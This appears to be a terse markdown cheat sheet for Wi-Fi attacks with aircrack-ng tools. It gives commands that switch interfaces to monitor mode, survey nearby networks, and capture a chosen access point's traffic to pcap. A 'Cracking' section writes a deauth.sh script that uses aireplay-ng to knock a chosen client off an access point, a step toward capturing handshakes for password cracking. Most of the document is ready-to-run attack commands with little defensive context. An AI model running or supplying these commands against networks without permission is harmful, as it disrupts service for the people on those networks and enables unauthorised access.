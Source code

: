## General

### AP `a`
```bash
1 apdo
2 sta
3 ap+sta
```

### Filter `s`
```bash
10 first seen
12 power rate
```

## Driver
```bash
https://github.com/aircrack-ng/rtl8812au
```

## Settings
```bash
ip link set wlan0 down
iw dev wlan0 set type monitor
ip link set wlan0 up

ip link set wlan1 down
iw dev wlan1 set type monitor
ip link set wlan1 up
```

## Monitor

### Observability - Generic
```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime --band a wlan0
airodump-ng --manufacturer --beacons --showack --wps --uptime --band bg wlan0
```

### Observability - Channel
```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --band bg --bssid CHANGEME wlan1
```

### Target
```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --write-interval 1 --output-format pcap --write CHANGEME \
            --channel CHANGEME --bssid CHANGEME wlan1
```

## Cracking
```bash
cat > deauth.sh << "EndOfMessage"
iwconfig wlan1 channel "${1}"

aireplay-ng -0 99 -D -a "${2}" -c "${3}" wlan1
EndOfMessage

chmod +x deauth.sh
```

## Kill View
```bash
kill -9 `ps aux | grep -i aircrack | awk '{print $2}'`
```
